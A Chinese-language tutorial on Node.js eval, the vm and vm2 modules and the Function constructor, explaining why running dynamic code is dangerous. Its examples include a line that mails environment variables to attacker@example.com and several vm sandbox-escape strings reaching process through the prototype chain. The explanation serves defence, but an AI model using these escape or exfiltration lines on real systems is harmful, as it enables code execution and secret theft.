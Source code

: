 # eval 和 vm

> [原文](https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/)

## eval 的使用

eval() 函数会将传入的字符串当做 JS 代码执行，并返回代码的结果，如果是个表达式，则返回这个表达式的结果，没有返回结果时则返回 undefined。如果希望将一个字符串函数转换成函数的话，需要在首尾加上`()`以表示为一个表达式，比如`eval("(function name() {})")`，否则会返回 undefined。

## eval 的问题

如果 eval 执行的代码是动态的，这可能成为被黑客攻击的安全漏洞，看如下例子：

```js
// 让宿主程序陷入死循环
eval('while(true) console.log(1)');
// 让宿主程序意外退出
eval('process.exit(0)');
// 暴露了内部变量
eval(
  'require("node-mailer").mail("attacker@example.com", JSON.stringify(process.ENV))',
);
// 改写了eval本身，导致后面代码发生异常
eval('eval = undefined');
```

由于 eval 执行字符串代码时的上下文就是宿主程序的当前上下文，因此黑客可以借助 eval 调用宿主上下文中的变量。

## vm 的使用

NodeJS 的 vm 模块能够让一段代码在一个独立的 V8 容器中编译执行，不过性能会比 eval 差很多。

- vm.runInNewContext(code[, contextObject[, options]])

可以让代码执行在一个独立的上下文中，这可以避免动态代码部分访问宿主上下文的变量（其实不能完全避免）：

```js
const vm = require('vm');
let result = vm.runInNewContext('a + 1', { a: 2 });
console.log(result); // 3
vm.runInNewContext('console.log(a)', { a: 2 }); // ReferenceError: console is not defined
// 可以设置超时防止死循环
vm.runInNewContext('while(true) console.log(1)', {}, { timeout: 3 });
```

- vm.runInThisContext(code[, options])

这类似与 eval，动态代码的执行上下文会和当前执行环境绑定：

```js
a = 0;
vm.runInThisContext('a += 1');
console.log(a); // 1
```

## vm 的问题

vm 不能完全避免动态代码访问宿主上下文的变量，看如下例子：

```js
const ctx = {};
vm.runInNewContext(
  // 通过原型链访问了宿主上下文的成员
  "this.constructor.constructor('return process')().exit()",
  ctx,
);
```

我们可以进行这样修改：

```js
const ctx = Object.create(null);
vm.runInNewContext(
  // 无法访问，因为ctx没有继承原型
  "this.constructor.constructor('return process')().exit()",
  ctx,
);
```

但即使如此，依然会有安全隐患：

```js
const ctx = Object.create(null);
ctx.a = function() {};
vm.runInNewContext(
  // 借助自定义变量的原型链访问了宿主上下文的成员
  "this.a.constructor.constructor('return process')().exit()",
  ctx,
);
```

## 介绍 vm2

vm2 是社区为了解决 vm 的安全问题而产生的，它会在执行代码时进行安全检测，使用方式如下：

```js
const { VM } = require('vm2');
let vm = new VM({
  timeout: 10,
  sandbox: {
    a: function() {
      return 123;
    },
  },
});
vm.run('a()');
```

但由于 vm2 只是对代码进行了人为把控，说到底只是对已发现的安全隐患进行穷举并解决，但谁都不能保证未来不会出现新的安全隐患。

要从根本上解决动态执行代码带来的安全隐患的方案应该是让宿主程序与动态代码在物理层面进行分离，比如让动态代码在 VM、docker 容器、AWS 的 lambda 中执行。

## 使用 Function 替换 eval

- new Function ([arg1[, arg2[, ...argN]],] functionBody)

Function 构造函数可以创建一个新的 Function 对象。

- Function (functionBody)

直接调用可以动态创建函数，但会遇到和 eval 类似的的安全问题和（相对较小的）性能问题，与 eval 不同的是，Function 创建的函数只能在全局作用域中运行。

```js
// eval执行时会自下而上的查找上下文是否包含目标方法，因此性能远低于Function
function scene1() {
  function Date() {
    return { date: 'Monday' };
  }
  function parse(code) {
    return eval('(' + code + ')');
  }
  var result = parse('{a:(4-1), b:function() {}, c:new Date()}');
  // {a: 3, c: {…}, b: ƒ}
  console.log(result);
}
// Function中的代码是在顶级上下文中执行的
function scene2() {
  function Date() {
    return { date: 'Monday' };
  }
  function parse(code) {
    return Function('"use strict";return (' + code + ')')();
  }
  var result = parse('{a:(4-1), b:function() {}, c:new Date()}');
  // {a: 3, c: Thu Apr 02 2020 17:07:34 GMT+0800 (中国标准时间), b: ƒ}
  console.log(result);
}
// 变通是的Function调用局部方法
function scene3() {
  function Date() {
    return { date: 'Monday' };
  }
  function parse(code) {
    return Function('"use strict";return (' + code + ')')()(Date);
  }
  var result = parse('function(Date){ return new Date() }');
  // {date: "Monday"}
  console.log(result);
}
scene1();
scene2();
scene3();
```
